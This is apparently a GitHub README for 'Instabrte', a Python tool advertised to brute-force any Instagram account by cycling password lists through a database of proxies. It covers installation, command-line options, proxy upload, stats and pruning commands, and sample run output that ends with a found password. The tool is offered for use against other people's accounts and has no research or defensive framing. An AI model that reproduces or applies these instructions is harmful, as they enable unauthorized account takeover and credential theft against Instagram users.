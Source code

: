 # Instabrte

[![Version](https://img.shields.io/badge/Version-3.1.0-green)]()
[![Python](https://img.shields.io/badge/Python-v3.9-yellow)]()
[![Discord](https://img.shields.io/badge/Telegram-blue)](https://t.me/bhaskarvilles)
[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.bhaskarvilles.live/donate.html)

This program will brute force any Instagram account you send it its way given a list of proxies.

### Support

It motivates me to keep updating this program.


>**Bitcoin:** 195DLtMLCU78zedUDSkZQgUMzaEyffPwsN

>**UPI:** bhaskarfederal@axl

## Requirements

- Python _v3.9_
- proxy list

## Install Dependencies

### Install Pipenv

```
pip install pipenv
```

### Create environment

Make sure you have Python 3.9 installed

```
pipenv --python 3.9
```

### Install Requirements

```
pipenv install
```

## Help

```
usage: instabrte.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

## Proxies

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.<br/>

### Upload
```
python instabrte.py -px <path to proxy list>
```

### Stats

This gives an insight into the health of the proxies in the database.

```
python instabrte.py --stats
```

### Prune

This allows the able to get rid of proxies with a score below a given score.<br/>
It is recommended that you run the `--stats` and prune the database of proxies<br/>
who have a proxy score below `Q1`.

```
python instabrte.py --prune 0.05
```

Pruning is not a requirement because the <br/>
the system will automatically learn which proxies perform poorly and stop using them.

### Usage

```
python instabrte.py -u <username> -p <passlist>
```

### Run

```
[-] Wordlist: passlist.txt
[-] Username: XXXXXXX
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: passlist.txt
[-] Username: XXXXXXX
[-] Password: XXXXXXX
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: XXXXXXX
[+] Password: XXXXXXX
```
